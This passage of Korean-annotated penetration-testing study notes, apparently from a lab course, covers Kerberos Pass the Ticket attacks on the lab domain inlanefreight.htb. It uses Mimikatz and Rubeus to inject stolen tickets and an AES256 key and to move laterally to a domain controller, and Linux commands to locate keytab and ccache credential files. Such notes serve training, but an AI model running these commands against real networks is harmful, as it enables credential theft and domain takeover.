 mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
c:\tools> dir \\DC01.inlanefreight.htb\c$
```
> Mimikatz 모듈 `misc`을 사용하여 `misc::cmd`명령을 사용하여 가져온 티켓으로 새 명령 프롬프트 창을 시작 가능

### Mimikatz - PowerShell Remoting with Pass the Ticket

#### Mimikatz - Pass the Ticket for Lateral Movement
```
C:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
c:\tools>powershell
PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
```

### Rubeus - PowerShell Remoting with Pass the Ticket

#### Create a Sacrificial Process with Rubeus
```C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show```

#### Rubeus - Pass the Ticket for Lateral Movement
```
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
c:\tools> powershell
PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
```

<br/><br/>
## Pass the Ticket (PtT) from Linux
> Linux 컴퓨터에서 Kerberos 티켓을 사용하려면 도메인에 가입할 필요가 없음

### Linux 및 Active Directory 통합 식별
- [realm](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/windows_integration_guide/cmd-realmd)이라는 도구를 사용하여 Linux 머신이 도메인에 가입되었는지 확인<br/>
```$ realm list```
- [sssd](https://sssd.io/) 또는 [winbind](https://www.samba.org/samba/docs/current/man-html/winbindd.8.html) 도구 사용 여부로 확인 가능<br/>
```$ ps -ef | grep -i "winbind\|sssd"```<br/>
- 참고 :  [블로그 게시물](https://web.archive.org/web/20210624040251/https://www.2daygeek.com/how-to-identify-that-the-linux-server-is-integrated-with-active-directory-ad/)

### Finding Keytab Files

#### Find를 사용하여 이름에 Keytab이 있는 파일 검색
```$ find / -name *keytab* -ls 2>/dev/null```

#### Cronjobs에서 Keytab 파일 식별
```$ crontab -l```

### Finding ccache Files

#### ccache 파일의 환경 변수 검토
```$ env | grep -i krb5```

#### Searching for ccache Files in /tmp
```$ ls -la /tmp```

### Abusing KeyTab Files

#### Listing keytab File Information
```$ klist -k -t /opt/specialfiles/carlos.keytab```

```
